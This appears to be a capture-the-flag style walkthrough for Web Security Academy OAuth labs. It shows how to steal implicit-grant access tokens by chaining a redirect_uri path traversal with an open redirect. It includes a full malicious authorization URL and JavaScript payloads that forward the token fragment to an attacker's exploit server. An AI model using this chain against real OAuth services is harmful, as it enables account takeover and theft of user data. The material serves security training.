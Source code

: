 ```bash
https://client-app.com/example/path
```

If you identify other pages to set, audit them for additional vulnerabilities. For authorization code flow, find a vulnerability that gives you access to the query parameters. For the implicit grant type, you need to extract the URL fragment.

Try looking for an open redirect which can be used as a proxy to forward victims to an attacker domain hosting a malicious script. 

For implicit grants, stealing access tokens do not just enable log ins, but allow you to make API calls to OAuth service's resource server and grab sensitive user data.
 
For example, look at the OAuth requests and responses. Look for certain API calls such as user information endpoints like `/me` and see if it uses that information to log in. If so, try re logging in and find the `GET /auth?client_id` request.

Play around with the request and see if you can supply an external domain for `redirect_uri`. If not, try appending directory traversal characters to the end (`/../`). If acceptable, intercept a `GET /auth?client_id` request and change the URL to something such as:

```bash
https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post?postId=1
```

Check all other pages. Blog posts may have a `Next post` option on each post which redirects the users to the path specified in a query parameter:

```bash
https://0aa9008d03ac4e6381f586b100260096.web-security-academy.net/post/next?path=/post?postId=2
```

Analyse the `path` parameter and notice there is an open redirect vulnerability. Attempt to submit an absolute URL. If so, use a URL to combine the vulnerabilities - URL to initiate an OAuth flow with the `redirect_uri` pointing to the open redirect, which forwards the victim to the exploit server:

```bash
https://oauth-0af600c403b94e3681818474020400fd.oauth-server.net/auth?client_id=jbv3s6qop35rszlgvndu1&redirect_uri=https://0aa9008d03ac4e6381f586b100260096.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a0a008d03284ec1814e854301d000fa.exploit-server.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email
```

Create a script that extracts the fragment and outputs it such as leaking it via the access log by redirecting users to exploit server for a second time, with access token as a query parameter:

```html
<script>
window.location = '/?'+document.location.hash.substr(1)
</script>
```

Combine them to create an exploit that forces the victim to visit the maliciuos URL and executes the script to steal access tokens:

```html
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-0af600c403b94e3681818474020400fd.oauth-server.net/auth?client_id=jbv3s6qop35rszlgvndu1&redirect_uri=https://0aa9008d03ac4e6381f586b100260096.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a0a008d03284ec1814e854301d000fa.exploit-server.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```
# Stealing OAuth Tokens via Proxy Page
